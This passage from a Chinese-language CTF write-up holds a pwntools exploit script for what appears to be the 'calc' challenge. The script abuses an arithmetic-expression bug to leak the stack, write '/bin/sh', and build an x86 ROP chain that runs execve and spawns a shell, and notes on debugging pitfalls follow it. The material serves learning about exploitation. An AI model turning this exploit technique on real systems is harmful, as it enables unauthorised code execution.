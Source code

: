 ```python
        sent_number = [binsh[0]-binsh[1], binsh[1]]
        self.payload = "*701+%d+%d\n" % (sent_number[0], sent_number[1])
        self.p.send(self.payload)
        assert p32(int(self.p.recvline(), 10)) == "/bin"

        self.binsh_addr = self.calc_ebp - 0x5a0 + 700 * 4
        print("write '/bin/sh': %s" % hex(self.binsh_addr) )

    def ROP(self):
        addr1 = 0x0805c34b      # pop eax; ret
        addr2 = 0x080701d1      # pop ecx; pop ebx; ret
        addr3 = 0x080701aa      # pop edx; ret
        addr4 = 0x08049a21      # int 0x80
        stack = [addr1, 0xb, addr2, 0x0, -0x100000000 + self.binsh_addr, addr3, 0x0, addr4]
        n = [ stack[i+1] + stack[i] for i in range(7)] + [ stack[7] ]
        assert n[3] < 0
        self.payload = "*361-1*%d-1*%d-1*%d-1*%d+%d+%d" % \
            (n[0], n[1], n[2], -n[3], 0x80000000+n[3], 0x80000000+n[3])
        if n[4] > 0:
            self.payload += "-1*%d" % n[4]
        else:
            self.payload += "-1*%d+%d+%d" % (-n[4], 0x80000000 + n[4], 0x80000000 + n[4] )
        self.payload += "-1*%d-1*%d-1*%d\n" % (n[5], n[6], n[7])
        self.p.send(self.payload)
        self.p.recvline()

    def get_shell(self):
        self.p.send("illegal")
        self.p.interactive()

    def pwn(self):
        print("----------begin-----------")
        self.p.recvline()
        self.leak_ebp()
        self.write_binsh()
        self.ROP()
        self.get_shell()
        self.p.wait_for_close()
        print("-----------end------------")


if __name__ == "__main__":
    s = Challenge(True)
    s.pwn()
```

写 `exp` 最后 debug 的时候有以下的几个坑点：

1. 我们利用乘法优先级比较高的特性，可以构造 `1*addr` 这样的表达式将上面的地址全部按顺序压入栈中。但是问题是 `adstr` 是一个负数，用这种方式压栈会出现表达式错误（`*-` 两个运算符同时出现）。
2. `/bin/sh` 这个字符串不能写在 `calc` 这个函数的局部变量区，因为每次循环时会被初始化。
